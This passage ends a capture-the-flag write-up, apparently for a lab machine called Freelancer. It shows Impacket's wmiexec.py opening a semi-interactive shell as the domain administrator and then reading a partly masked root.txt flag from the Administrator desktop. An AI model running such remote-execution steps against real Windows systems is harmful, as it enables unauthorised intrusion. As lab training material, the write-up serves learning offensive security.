 ```bash
  __import__('pkg_resources').run_script('impacket==0.12.0', 'wmiexec.py')
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
freelancer\administrator
```

And root.txt is available in Administrator's desktop:

```bash
C:\>cd users\administrator
C:\users\administrator>cd Desktop
C:\users\administrator\Desktop>type root.tx
tThe system cannot find the file specified.

C:\users\administrator\Desktop>type root.txt
58****************************a3
```

That's the machine guys. Hope you liked it!

{% endraw %}
